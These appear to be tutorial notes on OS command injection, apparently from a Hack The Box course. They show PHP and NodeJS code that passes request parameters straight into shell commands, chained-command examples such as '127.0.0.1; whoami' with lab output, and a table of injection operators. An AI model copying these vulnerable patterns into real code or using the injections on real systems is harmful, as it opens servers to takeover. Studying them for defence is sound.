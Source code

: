 ## OS Command Injections

### PHP Example

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

### NodeJS Example

```javascript
app.get("/createfile", function(req, res){
    child_process.exec(`touch /tmp/${req.query.filename}.txt`);
})
```

## Injecting Commands

```c
ping -c 1 127.0.0.1; whoami
```

```c
21y4d@htb[/htb]$ ping -c 1 127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```

### AND Operator

```c
ping -c 1 127.0.0.1 && whoami
```

### OR Operator

```c
$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```

```c
$ ping -c 1 || whoami

ping: usage error: Destination address required
21y4d
```

|**Injection Type**|**Operators**|
|---|---|
|SQL Injection|`'` `,` `;` `--` `/* */`|
|Command Injection|`;` `&&`|
|LDAP Injection|`*` `(` `)` `&` `\|`|
|XPath Injection|`'` `or` `and` `not` `substring` `concat` `count`|
|OS Command Injection|`;` `&` `\|`|
|Code Injection|`'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`|
|Directory Traversal/File Path Traversal|`../` `..\\` `%00`|
|Object Injection|`;` `&` `\|`|
|XQuery Injection|`'` `;` `--` `/* */`|
|Shellcode Injection|`\x` `\u` `%u` `%n`|
|Header Injection|`\n` `\r\n` `\t` `%0d` `%0a` `%09`|


